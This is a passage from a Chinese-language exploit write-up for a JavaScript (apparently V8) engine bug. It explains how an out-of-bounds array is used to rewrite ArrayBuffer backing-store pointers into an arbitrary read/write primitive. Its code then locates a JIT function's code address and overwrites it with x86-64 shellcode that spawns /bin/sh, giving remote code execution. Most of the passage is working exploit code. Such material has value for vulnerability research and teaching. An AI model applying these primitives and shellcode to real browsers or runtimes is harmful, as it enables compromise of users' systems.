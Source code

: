 构造读写原语的方式就出来了：利用`oobArray[i+1]`修改`bufs[j].kBackingStoreOffset`，然后用`bufs[j]`创建一个TypedArray，通过TypedArray进行读写，这样读写的地址就会变成我们修改的地址，也就构造出了任意读写原语
```javascript
let arw = null;

for (let i = 0; i < bufs.length; i++) {
    if (bufs[i].byteLength == 0x1212) {
        class ArbitraryReadWrite {
            constructor(changed_idx_oob, changed_idx_bufs) {
                this.idx_in_oob_arr = changed_idx_oob;
                this.idx_in_bufs_arr = changed_idx_bufs;
            }

            read(addr) {
                let i = this.idx_in_oob_arr;
                oobArray[i + 1] = addr.asDouble();
                oobArray[i + 2] = addr.asDouble();
                let arr = new Float64Array(bufs[this.idx_in_bufs_arr], 0, 0x10);
                return Int64.fromDouble(arr[0]);
            }

            write(addr, vals) {
                let i = this.idx_in_oob_arr;
                oobArray[i + 1] = (new Int64(addr)).asDouble();
                oobArray[i + 2] = (new Int64(addr)).asDouble();
                let arr = new Uint8Array(bufs[this.idx_in_bufs_arr]);
                arr.set(vals);
            }
        }

        arw = new ArbitraryReadWrite(changed_idx, i);
        break;
    }
}
```

所以可以任意读写之后，我们通过读原语读出`Code + 0x5F`的值，这个值就是JIT代码的地址，我们通过写原语将ShellCode写进去，最后进行函数调用即可完成RCE
```javascript
let code_addr = arw.read(Add(jit_func_obj_ptr, 0x30));
let jit_code_addr = Add(code_addr, 0x5F);

shell = [0x48, 0x31, 0xf6, 0x56, 0x48, 0xbf, 0x2f, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x57, 0x48, 0x89, 0xe7, 0x48, 0x31, 0xd2, 0x48, 0x31, 0xc0, 0xb0, 0x02, 0x48, 0xc1, 0xc8, 0x28, 0xb0, 0x3b, 0x0f, 0x05];
arw.write(jit_code_addr, shell);
func_to_overwrite();
```

效果如下

